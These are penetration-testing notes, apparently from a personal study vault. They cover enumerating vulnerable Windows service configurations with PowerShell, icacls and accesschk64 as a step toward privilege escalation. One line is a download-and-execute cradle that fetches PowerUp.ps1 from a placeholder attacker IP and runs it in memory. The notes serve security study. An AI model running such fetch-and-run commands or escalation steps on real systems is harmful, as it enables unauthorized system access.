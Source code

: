 ### Vulnerable Configurations
#### Identify Services
###### List All Services (PowerShell)
`Get-Service` or `Get-CimInstance -ClassName win32_service`
**Note:** This is extremely verbose.
###### List Running Services Limiting to Necessary Columns
`Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
OR
`Get-Service | Where-Object { $_.Status -eq 'Running' } | Select-Object Name, Status`
**Note:** These will not work over WinRM or Bind Shell. RDP / interactive logon would be needed.
**Note:** Look for services that aren't running in System32, indicating that they are installed by a user.
###### Enumerate Service Permissions
`icacls "C:\xampp\mysql\bin\mysqld.exe"`

| Mask | Permissions             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |
Example output:
```
PS C:\Users\dave> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
```
**Note:** If we can modify (M or F) the file, this may be vulnerable.
[[3.1.1 Windows Privilege Escalation Techniques#Service Binary Hijacking|Exploitation]]

---
#### Identify Binary Paths
###### Identify Paths Using Powerup.ps1
`powershell -NoProfile -Command "& {IEX(New-Object Net.WebClient).DownloadString('http://<attacker-ip>/PowerUp.ps1')}"'`
**Note:** Remember to add `Invoke-AllChecks` to the end of PowerUp.ps1 (`Invoke-AllChecks >> PowerUp.ps1`)
###### Identify Paths Using accesschk64 - accepteula
`accesschk64.exe /accepteula`
**Note:** Get this from [here](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk). EULA needs to be accepted first.
###### List Permissions for All Objects
`accesschk64.exe -uwcv Everyone *`
**Note:** We want CanRestart value to be set to True
###### Check Permissions of Specific Service with accesschk64
`accesschk64.exe -wuvc <servicename>`
**Note:** Looking for read / write perms
###### Example Vulnerable Service
```
C:\> accesschk64.exe -wuvc VulnService

VulnService
```